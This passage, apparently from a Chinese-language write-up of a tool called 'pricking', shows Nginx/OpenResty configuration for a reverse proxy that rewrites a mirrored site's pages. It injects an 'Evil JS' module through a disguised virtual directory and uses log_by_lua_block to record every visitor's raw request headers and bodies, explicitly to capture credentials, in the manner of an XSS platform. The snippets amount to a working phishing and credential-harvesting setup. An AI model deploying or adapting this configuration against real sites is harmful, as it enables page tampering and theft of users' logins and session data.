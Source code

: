 ```
                           ngx.arg[1] = whole
                        end
                }

```

在修改网页内容之前，需要通过`header_filter_by_lua_block`将`Content-Length`进行清空，因为修改后，`Content-Length`的大小一定是改变的。


### 使用ES6+标准将JS模块化

```html
<script src='/7276df76835ed2272cc0e59f55e49902/static.js' type='module'></script>
```

其中`static.js`就是引入的Evil JS，添加了`type='module'`是为了启用[ES6+](https://www.freecodecamp.org/news/learn-modern-javascript/)标准。

![2021-02-16-17-10-54](../../../static/images/b087b05c-4f5f-11ec-8b14-00d861bf4abb.png)


为了不和源站的目录冲突，`7276df76835ed2272cc0e59f55e49902`其实是一个虚拟的目录，通过`location`映射即可。

```
location ^~ /7276df76835ed2272cc0e59f55e49902/ {
                alias    /tmp/pricking/static/;
}
```

关于Import的说明可以看[这篇文章](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Statements/import)。

使用模块化功能可以让这个项目吸收更多关于浏览器丰富的操作，就像XSS平台那样。

### Nginx - 记录日志或凭证

由于`log_by_lua_block`是最后一个流程，可以把一些数据进行收集，写入日志文件。

```
...

http {
    ....
    log_format  logeverything  '$current_time - $remote_addr \n$request_headers \n\n$request_body\n';
  
    server {
            set $request_headers "";
            set $current_time "";
           ....

            location / {
                ...
                log_by_lua_block {
                    ngx.var.current_time = ngx.localtime()                  
                    ngx.var.request_headers = ngx.req.raw_header()
                }
```